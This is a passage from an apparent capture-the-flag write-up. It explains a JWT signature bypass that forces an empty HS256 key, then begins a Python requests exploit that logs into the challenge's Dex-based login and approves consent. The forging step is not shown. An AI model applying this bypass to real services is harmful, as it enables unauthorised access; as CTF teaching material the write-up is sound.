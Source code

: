 This was **almost** correct &#128578; The problem was in crafting the token. The
`jwt.decode()` does **not** completely skip signature verification when the key is empty and/or
`algorithms` are set to `["none"]`. It used to &#128521; but these days, in order for that to work,
you have to add `options={'verify_signature': False}`. But we don't have that here.
Any attempt to send an unsigned token to the exchange resulted in an `Internal Server Error`
and reproducing this locally, got me `jwt.exceptions.InvalidSignatureError: Signature verification failed`.

The alternative approach exploits the fact that **we control the algorithm and the key**.
At least of-sorts - we can cause the key to be empty. Which, surprisingly, is a valid option for
the symmetric `HS256` signature algorithm.

# The exploit

Initialize session, define endpoints started by SHC website:

```python
import jwt
import re
import requests
import urllib3

urllib3.disable_warnings(category=urllib3.exceptions.InsecureRequestWarning)
s = requests.Session()

FRONTEND_ENDPOINT = "https://ccd293d7-e55b-46d8-8cf9-d7b80572f301.library.m0unt41n.ch:31337"
IDP_ENDPOINT      = "https://0127eff2-e516-486e-8785-387286dce119.library.m0unt41n.ch:31337"
TOKEN_ENDPOINT    = "https://7c5f3091-6d7b-4623-be3d-3033150308b1.library.m0unt41n.ch:31337"
BACKEND_ENDPOINT  = "https://480bf863-1ae9-4c1c-95f0-e881f79981d1.library.m0unt41n.ch:31337"
```

Simulate clicking `Login here` button on the index page:

```python
s = requests.Session()
r = s.get(FRONTEND_ENDPOINT+"/private")
```

This will perform full redirect to the login form on `BACKEND_ENDPOINT` - and `r.url` will
contain that address, including necessary tokens. Now, simulate entering credentials in
that form:

```python
r = s.post(r.url, data = {
    'login': 'steve@general-management.llc',
    'password': 'password',
})
```

This, again, does all the necessary redirects and, in the end, `r.url` will contain address
of the Dex page for granting the app permissions - and we can simulate submitting that form,
with `Approve` button.

```python
req = re.search(r'name="req" value="([^"]+)', r.text).group(1)
r = s.post(r.url, data = {
    'req': req,
    'approval': 'approve',
})
```
